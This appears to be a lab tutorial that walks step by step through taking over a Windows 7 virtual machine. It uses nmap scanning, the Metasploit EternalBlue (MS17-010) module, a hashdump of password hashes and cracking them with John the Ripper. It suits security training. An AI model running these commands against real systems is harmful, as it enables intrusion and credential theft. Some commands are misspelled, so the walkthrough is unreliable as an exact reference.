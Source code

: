 # ♦ Day 13
</br>
</br>

## ◙ ***Getting into Win 7***
 </br>
 
# ♦ Getting into Win 7 : 
   ⇨ In this session we will be learning how to get into a windowsn device and can collect data or spying onto the host pc, for this we will be using a Windows professional device in our local nettwork(Virtual Machine). 
   </br>
   </br>
### ◙ Step-By-Step Guide 

### • 1. Reconnaissance : First of all we will be checking our local network if there arne any other devices connected or not (Note: for this to work in VM make sure both the devices are in same network settings preferrably "NAT Network" </br>
For scanning our local network we will be using ***arp scan*** by using following commands:

    sudo arp-scan -l -I eth1

After this we have to check which one of the device is tht we are looking for so for that we will use ***nmap*** to identify operating systems of all the devices individaually by using:

    sudo nmap -O >Ip add<

### • 2. Search For Vulnerability : Now we will be searching for the vulnerabilities of the ip we confirmed by doing nmap scans now for vulnerability searching we will be using the following command

    namp -Pn -sV --script vuln -oN vuln-win7-nmap.txt >IP add<

As we can see from above report tht there is a vulnerability availabe by the name "ms17-010".


### • 3. Now we would like to get some details on the this Vulnerability, for that we will be using ***"Searchsploit"*** :

    searchexploit ms17-010

As we acan see there are 6 exploits for this vulnerability, we will be using the one which can be done (Metasploit) cuz it most efficient and easy to do


### • 4. METASPLOIT : The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. </br>

• Now to acess metasploit we have to type a command 

    msfconsole

• After getting into msfconsole we have to search for the vulnerability ***"ms17-010"***


• Now select the 1st one with the name ***"Eternalblue"*** by using command ***"use 0"***

    use 0

### • 5. Setting up Msfconsole : 

• Now we have to set up our msfconsole by seeing all the options that wre neede to be filled by watching them carefully ***"Show options"***

    show options

now as we can see above we have to fill LPORT, LHOST, RHOSTS & RPORT by using :

    set RHOSTS >The Recivers Ip<
    set LHOST >The Linux Ip<
    set RPORT >The Reciving Port<
    set LPORT >The Listening Port<

⇨   After setting all tht we just simply have to Use ***"exploit"*** command

     exploit

• Now we have successfully gained the access of the Windows Machine, now we can use ***"help "*** command to get all the details of what can we do in the system, for example :

• screensahre : it is a command by which we can see what is going on the target device in realtime it hosts a realtime screen of the Target
  
    sharescreen
 
• hashdump : command to get all the hash of the password which the Target device is currently holding into it.
    
    hashdump
    
    
• After getting all the hash informations of the user, we have to save it and 

#### ◙ HASH ENUMERATION :
  For this we will be using a tool called John The Ripper with the command:

    john --format=NT --rules -w=/usr/share/wordlists/rockyou.txt hashfile.txt

And now we will finally get the password of our victim device 

# ♦ END

